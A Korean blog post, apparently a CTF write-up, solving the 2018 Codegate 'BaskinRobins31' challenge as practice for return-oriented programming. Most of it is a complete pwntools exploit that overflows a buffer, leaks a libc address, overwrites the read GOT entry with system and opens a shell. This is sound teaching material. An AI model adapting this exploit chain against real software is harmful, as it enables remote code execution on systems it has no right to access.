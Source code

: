 ```yaml
---
layout: post
title: "2018 Codegate BaskinRobins31 Write up"
excerpt: "ROP를 공부하기 적합한 간단한 문제"
date: 2020-05-12
categories: [system, ctf]
comments: true
---
```


요세는 새로운 내용을 공부하는게 아닌 기존 지식들을 다시 되돌아보고 있는중이다. 이 문제는 워낙 rop를 공부할때

유용하다고 평이 나있는 문제라 다시 풀어봤다.

1. binary :

![bas1](/img/bas1.png)

2. code :

![bas2](/img/bas2.png)

3. gadget :

![bas3](/img/bas3.png)

![bas4](/img/bas4.png)

위에는 bss를 입혀주기 위한 pr이고 밑에는 write나 read를 위한 pppr이다.



4. exploit :

```python
from pwn import *

e = ELF("./BaskinRobins31")
p = process("./BaskinRobins31")
s = ELF("/lib/x86_64-linux-gnu/libc.so.6")

read_got = e.got['read']
read_plt = e.plt['read']
write_plt = e.plt['write']

write_got = e.got['write']
read_offset = s.symbols['read']
sys_offset = s.symbols['system']

bss = e.bss()
sh = "/bin/sh"
pppr = 0x40087a
pr = 0x400bc3

p.recvuntil("How many numbers do you want to take ? (1-3)")

pay = 'A'*184
pay += p64(pppr)
pay += p64(1)
pay += p64(read_got)
pay += p64(8)
pay += p64(write_plt)

pay += p64(pppr)
pay += p64(0)
pay += p64(bss)
pay += p64(len(sh))
pay += p64(read_plt)

pay += p64(pppr)
pay += p64(0)
pay += p64(read_got)
pay += p64(8)
pay += p64(read_plt)

pay += p64(pr)
pay += p64(bss)
pay += p64(read_plt)

p.sendline(pay)
p.recvuntil("Don't break the rules...:( \n")
read_addr = u64(p.recv(6)+"\x00\x00")
log.success('leak: '+hex(read_addr))
libc = read_addr - read_offset
sys_addr = libc + sys_offset
time.sleep(0.1)
p.send(sh)
time.sleep(0.1)
p.sendline(p64(sys_addr))
p.interactive()
```



p. s
64bit rop를 할때는 plt를 밑에다 넣어줘야함. 

